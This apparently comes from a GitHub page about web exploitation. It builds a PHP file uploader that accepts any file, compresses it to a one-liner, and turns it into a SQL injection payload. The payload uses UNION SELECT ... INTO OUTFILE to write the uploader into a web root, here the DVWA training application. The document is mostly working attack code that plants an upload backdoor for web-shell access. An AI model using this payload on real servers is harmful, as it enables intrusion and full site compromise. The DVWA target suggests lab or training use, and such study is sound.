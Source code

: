 ```php
        if (isset($_POST['submit'])) {
            if (!empty($_FILES['fileToUpload']['name'])) {
                $targetDir = './'; // Upload to the same directory as the PHP script
                $targetFile = $targetDir . basename($_FILES['fileToUpload']['name']);

                if (move_uploaded_file($_FILES['fileToUpload']['tmp_name'], $targetFile)) {
                    echo "File uploaded successfully.";
                } else {
                    echo "Sorry, there was an error uploading your file.";
                }
            } else {
                echo "Please choose a file to upload.";
            }
        }
        ?>
    </body>
</html>
```

Here's a one PHP liner.

```php
<?php if(isset($_POST['submit'])){$t='./';$f=$t.basename($_FILES['fileToUpload']['name']);if(move_uploaded_file($_FILES['fileToUpload']['tmp_name'],$f))echo"File uploaded successfully.";else echo"Sorry, there was an error uploading your file.";}?> <!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1.0"><title>File Upload</title></head><body><h2>File Upload</h2><form action="<?=$_SERVER['PHP_SELF']?>" method="POST" enctype="multipart/form-data"><input type="file" name="fileToUpload" id="fileToUpload"><input type="submit" value="Upload" name="submit"></form></body></html>
```

SQL Query for reference.

```sql
SELECT '<?php if(isset($_POST[\'submit\'])){$t=\'./\';$f=$t.basename($_FILES[\'fileToUpload\'][\'name\']);if(move_uploaded_file($_FILES[\'fileToUpload\'][\'tmp_name\'],$f))echo"File uploaded successfully.";else echo"Sorry, there was an error uploading your file.";}?>\n<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><meta name=\"viewport\" content=\"width=device-width, initial-scale=1.0\"><title>File Upload</title></head><body><h2>File Upload</h2><form action=\"<?=$_SERVER[\'PHP_SELF\']?>\" method=\"POST\" enctype=\"multipart/form-data\"><input type=\"file\" name=\"fileToUpload\" id=\"fileToUpload\"><input type=\"submit\" value=\"Upload\" name=\"submit\"></form></body></html>' INTO OUTFILE '/path/to/uploader.php'
```

Convert it to SQLi injection exploit with **UNION SELECT**.

```sql
' UNION SELECT '<?php if(isset($_POST[\'submit\'])){$t=\'./\';$f=$t.basename($_FILES[\'fileToUpload\'][\'name\']);if(move_uploaded_file($_FILES[\'fileToUpload\'][\'tmp_name\'],$f))echo"File uploaded successfully.";else echo"Sorry, there was an error uploading your file.";}?>\n<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><meta name=\"viewport\" content=\"width=device-width, initial-scale=1.0\"><title>File Upload</title></head><body><h2>File Upload</h2><form action=\"<?=$_SERVER[\'PHP_SELF\']?>\" method=\"POST\" enctype=\"multipart/form-data\"><input type=\"file\" name=\"fileToUpload\" id=\"fileToUpload\"><input type=\"submit\" value=\"Upload\" name=\"submit\"></form></body></html>', NULL INTO OUTFILE '/var/www/html/dvwa/uploader.php'#
```
